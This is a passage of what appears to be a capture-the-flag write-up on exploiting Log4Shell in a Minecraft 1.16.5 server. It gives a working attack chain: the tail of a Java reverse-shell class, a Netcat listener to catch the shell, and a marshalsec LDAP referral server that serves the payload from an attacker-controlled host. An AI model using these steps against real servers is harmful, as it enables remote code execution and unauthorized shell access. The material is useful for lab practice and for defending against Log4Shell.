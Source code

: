 ```java
        p.destroy();
        s.close();
    }
}
```
{: file='Log4jShell.java'}

Modify the `host` and `port` to match that of your web server.

Compile it using the following command:

```sh
javac Log4Shell.java
```

Also, set up a Netcat listener as this is where we will get our reverse shell.

```sh
nc -lnvp 9999
```

### LDAP Referral

Next we'll setup the LDAP referral.

Clone the [marshalsec](https://github.com/mbechler/marshalsec) repo using this command:

```sh
git clone https://github.com/mbechler/marshalsec.git
```

`cd` into the repo and then run the following command to set up maven:

```sh
mvn clean package -DskipTests
```

Finally, start the LDAP server.

```sh
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.14.86:8000/#Log4jShell"
```

Replace `<address>` and `<port>` with the address and port of your web server.

### Install Minecraft

Finally, launch Minecraft. If you don't own the game, download [TLauncher](https://tlauncher.org/en/)

Download version 1.16.5 as that's the version we detected earlier.

![crafty_04.png](/assets/posts/crafty/crafty_04.png)

